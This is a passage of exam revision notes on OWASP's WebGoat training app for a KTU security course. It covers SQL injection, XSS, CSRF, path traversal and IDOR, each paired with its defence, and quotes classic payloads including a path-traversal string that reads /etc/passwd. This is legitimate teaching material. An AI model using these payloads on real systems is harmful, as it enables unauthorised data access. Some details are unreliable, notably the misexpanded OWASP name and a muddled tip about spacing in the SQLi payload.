> **KTU Examiner's Valuation Warning / Common Pitfalls**
> 1. **Do NOT confuse XSS with CSRF.** XSS exploits the **trust a user has in a website** (script runs in the user's browser with site's privileges). CSRF exploits the **trust a website has in a user's browser** (browser sends authenticated request without user knowledge). This is the single most-confused pair in cyber-security exams.
> 2. **Always map vulnerabilities to the OWASP Top 10:2021** edition, not the 2017 version. The KTU 2024 syllabus has been updated.
> 3. **Mention the defensive fix alongside the attack.** Examiners award marks not just for showing how to break, but for showing how to defend (e.g., `PreparedStatement` for SQLi, `htmlEscape()` for XSS, Anti-CSRF tokens for CSRF).
> 4. **Do not write `'OR'1'='1'`** without the space after the closing single-quote of the original string. The space matters — it separates the injected keyword from the original string boundary.
> 5. **WebGoat is a Docker/Java app, not a Python app.** Many students mistakenly call it a Python/Flask application. It is **Java + Spring Boot**.

---

## 5.3 Topic Recap & Important Things to Remember

> [!IMPORTANT]
> **High-Density Revision Checklist — WebGoat (PBCST604, Module 2)**

- **WebGoat** = OWASP-maintained, intentionally vulnerable web application used as a **teaching tool** for web security.
- **Parent project:** **OWASP (Open Worldwide Application for Security Project)** — a non-profit foundation.
- **Tech stack:** **Java 17 + Spring Boot 3.x + Tomcat + H2 in-memory database**.
- **License:** **GPL v2** (free, open-source, copyleft).
- **Default port:** **8080** (HTTP) — secondary port **9090** for **WebWolf** (a companion vulnerable app).
- **Distribution:** **Docker image** (`webgoat/webgoat`), JAR file, or GitHub release.
- **Three-tier architecture:** Presentation (Thymeleaf/HTML) → Application (Spring Boot Java) → Data (H2 DB via JDBC).
- **Why use WebGoat?** (1) Legal safety under IT Act 2000, (2) Pre-configured vulnerabilities, (3) Guided lessons with hints, (4) Safe sandboxed environment.
- **Top 5 Lessons to Memorise:**
  1. **SQL Injection** — payload `' OR '1'='1` — defence: `PreparedStatement`.
  2. **Cross-Site Scripting (XSS)** — Stored vs Reflected vs DOM — defence: `htmlEscape()` / `th:text`.
  3. **CSRF** — forged authenticated request — defence: Anti-CSRF tokens + `SameSite` cookies.
  4. **Path Traversal** — payload `../../etc/passwd` — defence: path normalisation and whitelisting.
  5. **IDOR** — manipulating object IDs in URL — defence: server-side authorisation checks.
- **OWASP Top 10:2021 mapping:** WebGoat covers **A01 (Broken Access Control)**, **A03 (Injection)**, **A05 (Misconfiguration)**, **A06 (Vulnerable Components)**, **A07 (Auth Failures)**, and **A10 (SSRF)**.
- **Classic SQLi bypass payload to remember:** `' OR '1'='1` — works because it creates a **boolean tautology** that returns all rows.
- **Classic XSS payload to remember:** `<script>alert('XSS')</script>` — works because the server does not HTML-escape the input.
- **Classic path traversal payload to remember:** `../../../../etc/passwd` — works because the server concatenates user input to a base path without validation.
- **Key terms:** CWE (Common Weakness Enumeration), SAST (Static Analysis), DAST (Dynamic Analysis), H2 (in-memory DB), Spring Boot (Java framework), Tomcat (servlet container), GPL (license).
- **Common exam trap:** WebGoat is **not a Python/Flask app**, **not a PHP app**, and **not a CTF platform** — it is specifically a **Java + Spring Boot** teaching tool maintained by OWASP.
- **Differentiate clearly:** XSS exploits the **user → site** trust direction; CSRF exploits the **site → user/browser** trust direction.
- **Practical tip:** When running WebGoat, always use the **latest stable Docker image** to avoid dependency-related crashes on older Java versions.

---

<!-- SECTION_5_END -->
